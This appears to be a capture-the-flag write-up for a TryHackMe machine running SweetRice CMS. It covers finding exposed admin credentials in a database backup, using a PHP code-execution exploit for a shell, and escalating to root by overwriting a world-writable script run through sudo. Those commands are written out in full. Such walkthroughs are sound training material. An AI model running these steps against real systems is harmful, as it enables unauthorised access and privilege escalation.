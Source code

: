 ## User Own
1. gobuster found `/content` page. It's a SweetRice CMS service.
2. According to the [docs](http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/), we found directory traversal at `/content/inc`.
3. Download `mysql_bakup_20191129023059-1.5.1.sql` from `/content/inc`. At the line 79 of the file, we found admin is `manager` and it's password is `Password123` in MD5.
4. Searching the exploits of SweetRice with `searchsploit, it shows that we can do a PHP code execution on the server. See `rev.html` to get shell.
5. Get flag at `/home/itguy/user.txt`.

## Root Own
1. We can run `perl /home/itguy/backup.pl` with sudo, and `backup.pl` will run `/etc/copy.sh`.
	```bash
	$ sudo -l
		Matching Defaults entries for www-data on THM-Chal:
			env_reset, mail_badpass,
			secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

		User www-data may run the following commands on THM-Chal:
			(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
	$ cat /home/itguy/backup.pl
	#!/usr/bin/perl

	system("sh", "/etc/copy.sh");
	```
2. Since `copy.sh` is writable to everyone, so we can execute commands as root via `copy.sh`.
	```bash
	$ ls -l /etc/copy.sh
	-rw-r--rwx 1 root root 28 Jun 16 14:18 /etc/copy.sh
	```
3. Get root.txt via `copy.sh`
	```bash
	$ echo 'cat /root/root.txt > /tmp/a' > /etc/copy.sh
	$ sudo perl /home/itguy/backup.pl
	$ cat /tmp/a
	THM{XXXXXXXXXXXXXXXXXXXX}
	```

